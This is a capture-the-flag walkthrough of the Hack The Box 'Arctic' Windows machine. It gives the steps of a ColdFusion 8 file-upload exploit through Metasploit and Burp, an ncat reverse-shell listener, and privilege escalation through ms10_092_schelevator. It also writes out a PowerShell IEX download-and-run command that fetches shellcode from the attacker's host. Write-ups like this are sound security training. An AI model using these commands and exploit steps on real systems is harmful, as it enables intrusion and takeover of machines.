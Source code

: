 # Arctic Box Write-Up
### Author: Luke DuCharme (@_nTr0py)
### Date Completed: 08 January 2019
### Difficulty: Easy
### IP: 10.10.10.11
### OS: Windows

### Enumeration with Nmap:
![nmap](/img/arctic/nmap.png)
* -sV : enumerate versions
* -sC : run safe scripts
* -Pn : skip host discovery

* Port 8500 is the default port for Adobe Cold Fusion.

![coldfusion page](/img/arctic/coldfusion.png)
* When navigating to port 8500 on a web browser, there is an interesting page in the /CFIDE/administrator directory. They are running Coldfusion v8. 

### Exploitation:
![exploit search](/img/arctic/exploit_search.png)
* Use searchsploit to locate possible exploits.
* There's a Metasploit module for an arbitrary file upload exploit.

![msfconsole1](/img/arctic/msfconsole1.png)
* Pull up the Metasploit Framework, and do a search for coldfusion.
* Use the module found in searchsploit.
* Set rhost to 10.10.10.11 and rport to 8500. 
* Exploit.

![msfconsole2](/img/arctic/msfconsole2.png)
* The exploit failed because of the server's long response time, so there is a little extra work to be done. 

![burpsuite1](/img/arctic/burp1.png)
* Open up Burpsuite and navigate to the proxy options tab.

![burpsuite2](/img/arctic/burp2.png)
* Add a listener for port 8500 and loop back only option to redirect to 10.10.10.11 and port 8500.

![test](/img/arctic/test.png)
* Browse to localhost:8500 to test the listener in a web browser. If intercept is on in Burp, make sure to forward the request.

* Go back to Metasploit and set rhost to 127.0.0.1 and exploit (Make sure intercept is on in Burp).

* Go to Burp and copy the POST request on the Proxy/intercept tab to the repeater tab on the request side.
* Drop the POST request from the Proxy/intercept tab.

![repeater](/img/arctic/repeater.png)
* Hit go on the Repeater tab and send it to 10.10.10.11 port 8500.
* There should be a 200 reponse in the response section along with the directory it uploaded the payload to. 

![listener](/img/arctic/listener.png)
* Start a ncat listener on port 4444 to catch the shell the callback the payload will generate. 
** l : listen
** n : no DNS
** v : verbose output
** p : port

![navigate](/img/arctic/navigate.png)
* Navigate to the payload page whose directory was shown in the Burp Repeater/response page.

![shell](/img/arctic/shell.png)
* There's a shell! 
* If something isn't working, make sure Burp isn't intercepting. 

### Upgrade Shell to Meterpreter with Unicorn (https://github.com/trustedsec/unicorn):
![unicorn](/img/arctic/unicorn.png)
* Follow the above syntax substituting Unicorn's directory and the IP of the attack box and a random high port. 

![restart](/img/arctic/restart.png) 
* Restart the Metasploit Framework using the options generated by Unicorn.
* cat the powershell_attack.txt file that Unicorn generated and copy it to the clipboard (make sure to avoid any extra spaces at the end or beginning).
* Use vi to create exploit.html and paste the powershell into it.
* Start a simple HTTP server on the attack machine using python in the directory where exploit.html is located (python -m SimpleHTTPServer).

![download](/img/arctic/download.png)
* In the shell on the target machine, run the following command in powershell to download and run the shellcode:
** powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
*** make sure to use the IP of the attack station and shellcode filename in the URL.
** There should be a GET request on your HTTP server in a few seconds.
* Switch to your Metasploit console, and it should indicate it's sending the encoded stager. If it sits for awhile, you can hit enter and use the sessions command to make sure your session was generated (to interact with it use 'sessions -i <session #>).
* Now we have a user level Meterpreter shell!

### Privesc
![suggester1](/img/arctic/suggester1.png)
* Use the local exploit suggester to check for any possible local privesc exploits. 

![suggester2](/img/arctic/suggester2.png)
* Since Meterpreter is currently running as a 32 bit process, you need to migrate to a 64 bit process, run the suggester again, and then use the exploit which works for 32 and 64 bit. 
** Interact with the Meterpreter session, list the processes with 'ps', migrate to a stable x64 process with 'migrate <PID>'.
* Follow the previous steps to run the suggester again.

![suggester_both](/img/arctic/suggester_both.png)
* ms10_092_schelevator is the only exploit which works on 32 and 64 bit, so use that one.
* Use ms10_092_schelevator and set the session to your Meterpreter session number.
* Throw the 'sploit!
** If it doesn't generate the session, check and make sure it starts the listener on your VPN IP and not your attack station's local IP. If it did, simply set lhost to your VPN IP. 

### Datamining:
![system](/img/arctic/system.png)
* Use the SYSTEM Meterpreter session to get the user and root flags.




